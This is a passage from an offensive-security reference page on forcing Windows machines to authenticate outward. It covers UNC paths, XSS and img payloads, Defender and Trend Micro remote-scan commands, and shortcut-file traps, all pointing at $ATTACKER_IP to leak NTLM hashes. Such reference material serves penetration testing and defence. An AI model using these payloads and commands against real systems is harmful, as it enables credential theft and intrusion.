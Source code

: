 On Windows machines, the file explorer can be used to access remote resources like SMB shares by supplying its UNC path (i.e. `\\$ATTACKER_IP\something`) in the research bar. This leads to an outgoing traffic using SMB.

### Internet browser

Internet browsers can access HTTP servers by supplying their URL (i.e. `http://$IP:$PORT/something`) in the research bar. This technique is rarely used as it can pop up a prompt. This leads to an outgoing traffic using HTTP.

### HTML documents / XSS

HTML documents can be crafted (or injected with content when successfully exploiting an HTML injection attack such as an [Cross-Site Scripting](../../../web-services/attacks-on-inputs/xss-cross-site-scripting.md)) in way that could make browsers authenticate when accessing a remote resource. This leads to an outgoing traffic using SMB.

```markup
<script>
    language='javascript' src="\\$ATTACKER_IP\something\something.js"
</script>
```

```markup
<img src="file://$ATTACKER_IP/something/something.png"/>
```

### Web server file inclusion

{% embed url="https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/" %}

### Windows Defender Remote Scanning

```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\$ATTACKER_IP\file.txt
```

### Trend Micro Remote Scanning

```bash
C:\Program Files (x86)\Trend Micro\OfficeScan Clien\PccNt.exe \\$ATTACKER_IP\s\
```

### Shortcut files (scf, lnk, url)

SMB shares can be trapped with shortcut files that will automatically be handled by Windows' file explorer (e.g. a URL shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary). This leads to an outgoing traffic using SMB.

{% hint style="info" %}
Shares an account has WRITE privileges over can be mapped with [smbmap](https://github.com/ShawnDEvans/smbmap) (Python).
